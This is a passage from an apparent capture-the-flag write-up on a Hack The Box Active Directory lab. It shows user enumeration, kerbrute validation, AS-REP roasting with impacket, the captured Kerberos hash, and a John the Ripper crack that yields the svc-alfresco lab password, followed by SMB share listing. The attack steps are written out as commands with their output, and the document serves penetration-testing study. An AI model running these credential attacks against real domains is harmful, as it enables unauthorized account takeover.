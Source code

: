 From tcp139/enum4linux.txt we gain the following users:
- mark - Mark Brandt
- tahaa
- sebastien - Sebastien Caron
- lucinda - Lucinda Berger
- santi - Santi Rodriguez
- yoloswag
- Administrator
- svc-alfresco
- andy - Andy Hislip
- DefaultAccount - A user account managed by the system

I add these to a wordlist and verify if they exist on the DC using kerbrute
```bash
$ kerbrute_linux_amd64 userenum --dc 10.10.10.161 -d htb.local users.txt

2022/07/27 16:26:56 >  [+] VALID USERNAME:       Administrator@htb.local
2022/07/27 16:26:56 >  [+] VALID USERNAME:       lucinda@htb.local
2022/07/27 16:26:56 >  [+] VALID USERNAME:       sebastien@htb.local
2022/07/27 16:26:56 >  [+] VALID USERNAME:       andy@htb.local
2022/07/27 16:26:56 >  [+] VALID USERNAME:       santi@htb.local
2022/07/27 16:26:56 >  [+] VALID USERNAME:       mark@htb.local
2022/07/27 16:26:56 >  [+] VALID USERNAME:       svc-alfresco@htb.local
```
All of the accounts appear to be valid.

I next go for a low hanging fruit of ASREPRoasting. 
```bash
$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb.local/ -usersfile users.txt

$krb5asrep$23$svc-alfresco@HTB.LOCAL:dd7a9627235c72df75dcd2d446829f49$a4a1d88e86276428b5c00bfb6b13528f05388d07229b45dcc46ad28d803d109c94ce969b20b314e2cb3c022b26ea7c1b76c70e4c3283f88ea7487c10db8d1c0e9a4f37d71251706d269ef0e19f3293fdb3d1de0eff365f956d21da424818ecfd9a127df4903bf967a521df02463172e06e74435446be4ca5d5e3e0a2e83569038a4b33d48150e8f3720aff8e594dae87e507d167cb98a6559108a244b340a6393ed1b9b2ee996c7e8bbf83ce6a539aa801f60c1eb64e0524432a0b1121d6ee3d4c4cea947a13e9b03c5dbafa6110b5b35b525675744bf1601a564bc0f6f38642b870c2f52acd
```
This gives me a hash for svc-alfresco. 

I attempt to crack with JtR
```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
```

This gives me the credentials **svc-alfresco:s3rvice**

### Enumeration Using Credentials

With this, we can re-enumerate everything using the found credentials. I'll start basic and enumerate more if I need to.

```bash
$ smbmap -u 'svc-alfresco' -p 's3rvice' -P 445 -H 10.10.10.161
```
This gives us 3 READ ONLY shares: IPC$, NETLOGON, SYSVOL.
